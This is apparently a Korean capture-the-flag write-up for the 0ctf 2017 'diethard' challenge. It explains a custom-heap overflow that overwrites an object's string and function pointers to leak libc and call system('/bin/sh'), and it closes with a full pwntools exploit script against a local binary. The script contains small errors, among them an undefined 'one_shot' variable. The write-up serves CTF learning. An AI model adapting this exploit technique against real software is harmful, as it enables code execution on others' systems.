 # 2017_0ctf_diethard

## Key words

- x86-64 | NX
- custom heap

## Solution

메뉴는 할당, 해제, 종료 기능이 제공 됩니다.

키워드에 커스텀 힙이라고 한 이유는 사실 잘 분석이 잘 안된 이유도 있고 페이지를 할당하여 그곳에서 힙과 비슷한 동작을 했기 때문에 커스텀 힙이라고 했습니다. 오브젝트 구조와 할당에 관련해서 자세하게 정리한 블로그를 참고하시면 좋을 것 같습니다.[1]

```c
struct Message_Small {
    unsigned long prev_id;
    size_t length;
    char *content;
    void (*print)(char *, size_t);
    char buf[length + 1];
};
struct Message_Large {
    unsigned long prev_id;
    size_t length;
    char *content;
    void (*print)(char *, size_t);
}
```

할당 시 크기를 2016 보다 작게 하면 small로 할당되고 2016이상이 되면 large로 할당이 됩니다.

보통 이런 문제는 문자열 포인터를 덮어서 원하는 주소를 릭 하고, 함수 포인터를 덮어서 실행 흐름을 변경해야 하는데 분석하는 동안에는 어떻게 오브젝트를 덮을 수 있을지 찾지 못했습니다.

그런데 한참 시도 하던 도중 다음과 같은 덤프를 보았습니다.

```python
fn_addMsg(0x20, "A")
fn_addMsg(0x20, "B")
fn_addMsg(2016, "C"*8)
```

```
*** 0x603340 *** :
00000000  00 80 ed f7  ff 7f 00 00  00 88 ed f7  ff 7f 00 00  │····│····│····│····│
00000010  08 90 ed f7  ff 7f 00 00  00 00 00 00  00 00 00 00  │····│····│····│····│
00000020  00 00 00 00  00 00 00 00  00 00 00 00  00 00 00 00  │····│····│····│····│

*** 0x7ffff7ed8000 *** :
00000000  00 00 00 00  00 00 00 00  00 04 00 00  00 00 00 00  │····│····│····│····│
00000010  20 80 ed f7  ff 7f 00 00  76 09 40 00  00 00 00 00  │ ···│····│v·@·│····│
00000020  41 00 00 00  00 00 00 00  00 00 00 00  00 00 00 00  │A···│····│····│····│
00000030  00 00 00 00  00 00 00 00  00 00 00 00  00 00 00 00  │····│····│····│····│

*** 0x7ffff7ed8800 *** :
00000000  43 43 43 43  43 43 43 43  00 00 00 00  00 00 00 00  │CCCC│CCCC│····│····│
00000010  20 88 ed f7  ff 7f 00 00  76 09 40 00  00 00 00 00  │ ···│····│v·@·│····│
00000020  42 00 00 00  00 00 00 00  00 00 00 00  00 00 00 00  │B···│····│····│····│
00000030  00 00 00 00  00 00 00 00  00 00 00 00  00 00 00 00  │····│····│····│····│

*** 0x7ffff7ed9008 *** :
00000000  00 00 00 00  00 00 00 00  e0 07 00 00  00 00 00 00  │····│····│····│····│
00000010  00 88 ed f7  ff 7f 00 00  76 09 40 00  00 00 00 00  │····│····│v·@·│····│
00000020  02 00 00 00  00 00 00 00  00 00 00 00  00 00 00 00  │····│····│····│····│
00000030  00 00 00 00  00 00 00 00  00 00 00 00  00 00 00 00  │····│····│····│····│
```

`0x7ffff7e8810` 위치는 2번째 오브젝트 인데 바로 그 직전인 `0x7ffff7ed8800`에 문자열 `CCCCCCCC`가 씌여졌습니다.

이를 이용하여 먼저 문자열 포인터를 `got@__libc_start_main`으로 덮고, `delete message` 메뉴를 이용하여 libc 주소를 구합니다.

`delete` 메뉴에서는 함수 포인터를 호출 하기 때문에 유용하게 사용될 수 있습니다.

```c
(*(void (__fastcall **)(_QWORD, _QWORD))(g_arrMsg_603340[i] + 0x18))(
  *(_QWORD *)(g_arrMsg_603340[i] + 16),
  (unsigned int)*(_QWORD *)(g_arrMsg_603340[i] + 8));
```

오브젝트를 모두 해제 하고, 다시 위와 같이 할당 한뒤, 함수 포인터를 `system`으로 변경하고 문자열 주소를 `/bin/sh`주소로 변경한뒤, 해제를 하면 쉘이 떨어 집니다.

## Exploit code

```python
from pwn import *
context(arch='amd64', os='linux')

def fn_addMsg(n, msg):
	p.sendline("1")
	print p.recv()

	p.sendline(str(n))
	print p.recv()

	p.sendline(msg)
	print p.recv()

def fn_delMsg(idx):
	p.sendline("2")
	print p.recv()

	p.sendline(str(idx))
	print p.recv()

def fn_leak(addr, n, title=""):
	print "*** {} *** : {}".format(hex(addr), title)
	print hexdump(p.leak(addr, n))

target = "./diethard"
p = process(target)
e = ELF(target)

got_libc = e.got["__libc_start_main"]

print p.recv()

addr_arrList = 0x603340
addr_c1 = 0x7ffff7ed8000
addr_c2 = 0x7ffff7ed8800
addr_c3 = 0x7ffff7ed9008

addr_cc1 = 0x7ffff7eda018

fn_addMsg(0x400, "A")
fn_addMsg(0x400, "B")
payload = "C" * 8
payload += p64(0x30)
payload += p64(got_libc)
payload += p64(0x400976)
fn_addMsg(2016, payload)

fn_leak(addr_arrList, 0x80)
fn_leak(addr_c1, 0x80)
fn_leak(addr_c2, 0x80)
fn_leak(addr_c3, 0x80)

p.sendline("2")
data = p.recvuntil("Which Message You Want To Delete?\n")
data = u64(data.split("1. ")[1][:6].ljust(8, "\x00"))

libc_base = data - 0x20740
addr_system = libc_base + 0x45390
binsh = libc_base + 0x18cd17

p.sendline("10")
print p.recv()

fn_delMsg(0)
fn_delMsg(1)
fn_delMsg(2)

fn_addMsg(1032, "A")
fn_addMsg(1032, "B")
payload = "C"*8
payload += p64(0x20)
payload += p64(binsh)
payload += p64(addr_system)
fn_addMsg(2016, payload)

print "__libc_start_main : " + hex(data)
print "one_shot          : " + hex(one_shot)

fn_leak(addr_arrList, 0x80)
fn_leak(addr_c1, 0x80)
fn_leak(addr_c2, 0x80)
fn_leak(addr_c3, 0x80)

p.sendline("2")
p.interactive()
```

[1]: http://charo-it.hatenablog.jp/entry/2017/03/24/114341
